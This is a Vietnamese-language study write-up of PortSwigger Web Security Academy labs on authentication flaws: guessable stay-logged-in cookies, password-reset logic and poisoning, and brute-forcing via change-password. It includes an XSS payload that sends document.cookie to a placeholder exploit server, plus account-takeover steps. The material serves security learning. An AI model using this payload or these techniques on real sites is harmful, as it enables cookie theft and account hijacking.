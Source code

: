 # Vulnerabilities in other authentication mechanisms
Ngoài chức năng đăng nhập cơ bản, các trang web thường cung cấp các tính năng bổ sung cho người dùng quản lý tài khoản như thay đổi hoặc đặt lại mật khẩu. Những cơ chế này có thể chứa lỗ hổng mà kẻ tấn công có thể khai thác. Vì vậy, việc bảo vệ các chức năng liên quan cũng quan trọng như bảo vệ trang đăng nhập chính.
## Keeping users logged in

Tính năng "**Remember me**" hoặc "**Keep me logged in**" thường được triển khai bằng cách tạo ra một **cookie "remember me"** lưu trữ mã token để duy trì đăng nhập. Lỗ hổng xảy ra khi cookie này được tạo dựa trên giá trị có thể đoán được như tên người dùng, thời gian hoặc mật khẩu băm. Kẻ tấn công có thể tạo tài khoản của riêng mình, phân tích cách cookie được tạo ra và sử dụng thông tin này để brute-force cookie của người dùng khác nhằm truy cập tài khoản của họ.


Ví dụ: https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie

Khi đăng nhập với chế độ `stay-logged-in` chúng tạo ra 1 cookie để duy trì đăng nhập: 
![alt text](image-21.png)\
![alt text](image-22.png)

Base64 decode thì ta được:
![alt text](image-23.png)

Nhận thấy độ dài đoạn hash sau `:` trùng với MD5 ta check thử thì thấy đáp án là `MD5(password) `
![alt text](image-24.png)

Từ đây ta brute-force cho `carlos` với cookie `stay-logged-in` dạng base64(carlos:MD5(password)):
![alt text](image-25.png)\
![alt text](image-26.png)

Một lỗ hổng khác là sử dụng các kỹ thuật như **XSS** để đánh cắp cookie "remember me". Kẻ tấn công có thể suy ra cách tạo cookie và từ đó truy cập tài khoản của nạn nhân.

Ví dụ: https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking

Ta thấy cookie để xác nhận và duy trì đăng nhập có dạng: `username:hash(password)` bây giờ ta sẽ đi đánh cắp cookie nạn nhân bằng XSS:\
`<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`

Theo dõi log ta thấy: 
![alt text](image-31.png)

![alt text](image-32.png)

Predict đoạn hash: 
![alt text](image-33.png)

Bây giờ ta đã có thể đăng nhập với `carlos`.
## Resetting user passwords

Đặt lại mật khẩu là một tính năng nhạy cảm, và nếu không được triển khai đúng cách, có thể tạo ra lỗ hổng nghiêm trọng. Có nhiều cách mà chức năng này được triển khai với các mức độ an toàn khác nhau.

### Sending passwords by email

Một số trang web gửi mật khẩu mới qua email. Đây là cách tiếp cận nguy hiểm, vì email thường không an toàn và dễ bị chặn. Thay vào đó, tốt hơn là gửi một URL để đặt lại mật khẩu.


### Resetting passwords using a URL
Một phương pháp đặt lại mật khẩu mạnh mẽ hơn là gửi một URL duy nhất tới người dùng để đưa họ đến trang đặt lại mật khẩu. Việc triển khai phương pháp này kém an toàn hơn sử dụng URL có tham số dễ đoán để xác định tài khoản nào đang được đặt lại, ví dụ:\
`http://vulnerable-website.com/reset-password?user=victim-user`\
Trong ví dụ này, kẻ tấn công có thể thay đổi tham số `user` để chỉ bất kỳ tên người dùng nào mà chúng đã xác định. Sau đó, họ sẽ được đưa thẳng đến một trang nơi họ có thể đặt mật khẩu mới cho người dùng tùy ý này.\
Cách triển khai tốt hơn cho quy trình này là tạo mã thông báo có entropy cao, khó đoán và tạo URL đặt lại dựa trên đó. Trong trường hợp tốt nhất, URL này sẽ không cung cấp gợi ý nào về mật khẩu của người dùng nào đang được đặt lại.\
`http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8`\
Khi người dùng truy cập URL này, hệ thống sẽ kiểm tra xem token này có tồn tại ở back-end hay không và nếu có thì mật khẩu của người dùng nào sẽ được đặt lại. Token này sẽ hết hạn sau một khoảng thời gian ngắn và bị hủy ngay sau khi mật khẩu được đặt lại.\
Tuy nhiên, một số trang web không xác thực lại token khi biểu mẫu đặt lại được gửi. Trong trường hợp này, kẻ tấn công có thể chỉ cần truy cập vào biểu mẫu đặt lại từ tài khoản của chính chúng, xóa mã thông báo và tận dụng trang này để đặt lại mật khẩu của người dùng tùy ý.

ví dụ: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic

Reset password với username `wiener` sẽ có 1 mail gửi về, theo đường link trong mail ta sẽ đến được trang thay đổi mật khẩu:
`https://0ad600c804b2682381acac3300070011.web-security-academy.net/forgot-password?temp-forgot-password-token=u0rvp7w75mrk1h6ca5z025mg60lq1ixh`\
Chú ý đến đoạn `u0rvp7w75mrk1h6ca5z025mg60lq1ixh`, ta nghĩ đến việc đoán đoạn token này sẽ khác với mỗi user và cần xem nó có logic gì để sinh ra ko. Nhưng không đem lại kết quả, ta sẽ thử tiếp để thay đổi mật khẩu: 
![alt text](image-27.png)

Ở đây ta thấy, việc có cả username và password trong POST giúp ta có thể kiểm soát được, nhưng việc có token ngẫu nhiên kia là vấn đề, ta sẽ thử xóa đoạn token đó đi và chỉ để username và password xem sao:
![alt text](image-28.png)

Vẫn thành công, vậy giờ ta sẽ thử với `carlos`:
- Nhập quên mật khẩu với `carlos` để đảm bảo có link gửi về
- Sau đó gửi 1 POST password mới: 
![alt text](image-29.png)

Ok bây giờ đăng nhập `carlos` với password `123`
![alt text](image-30.png)

Nếu URL trong email đặt lại được tạo động thì điều này cũng có thể dễ bị nhiễm độc khi đặt lại mật khẩu. Trong trường hợp này, kẻ tấn công có thể đánh cắp token của người dùng khác và sử dụng nó để thay đổi mật khẩu của họ.

Ví dụ: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware

Read more: https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning

Sau khi điền ở trang Forgot password thì người dùng sẽ nhận được mail:\
![alt text](image-34.png)

Trong mail sẽ có link có gắn thêm token, mục tiêu của ta là lấy được token của `carlos`, đi đến burp suite và chỉnh sửa lại request: 
![alt text](image-35.png)

Ta thêm phần `X-Forwarded-Host` để đánh lừa máy chủ rằng host này là nơi xuất phát:
![alt text](image-37.png)

![alt text](image-38.png)

## Changing user passwords
Thông thường, việc thay đổi mật khẩu bao gồm việc nhập mật khẩu hiện tại và sau đó là mật khẩu mới hai lần. Về cơ bản, các trang này dựa trên cùng một quy trình để kiểm tra xem tên người dùng và mật khẩu hiện tại có khớp với trang đăng nhập thông thường hay không. Do đó, các trang này có thể dễ bị tấn công bởi các kỹ thuật tương tự.\
Chức năng thay đổi mật khẩu có thể đặc biệt nguy hiểm nếu nó cho phép kẻ tấn công truy cập trực tiếp mà không cần đăng nhập với tư cách là người dùng nạn nhân. Ví dụ: nếu tên người dùng được cung cấp trong trường ẩn, kẻ tấn công có thể chỉnh sửa giá trị này trong yêu cầu nhắm mục tiêu người dùng tùy ý. Điều này có khả năng có thể bị khai thác để liệt kê tên người dùng và mật khẩu mạnh mẽ.

Ví dụ: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change

Ở bước change-password ta thấy nếu đổi username và brute-force mật khẩu cũ ta sẽ đổi được mật khẩu mới:\
![alt text](image-39.png)

Chú ý việc, nếu password ko đúng nó sẽ báo password sai, còn nếu password đúng nó sẽ kiểm tra xem 2 mật khẩu mới có khớp ko, vậy nên ta sẽ set 2 mật khẩu mới ko khớp nhau, vì thế khi mật khẩu cũ đúng thì nó sẽ báo lại là mật khẩu mới ko khớp: 
![alt text](image-40.png)

Vì bài này chỉ tìm mật khẩu của Carlos chứ ko phải cố gắng đăng nhập vào carlos nên ko được phép đổi mật khẩu, nếu ta để 2 mk mới trùng nhau thì dù đúng mk cũ nó cũng ko báo thành công!
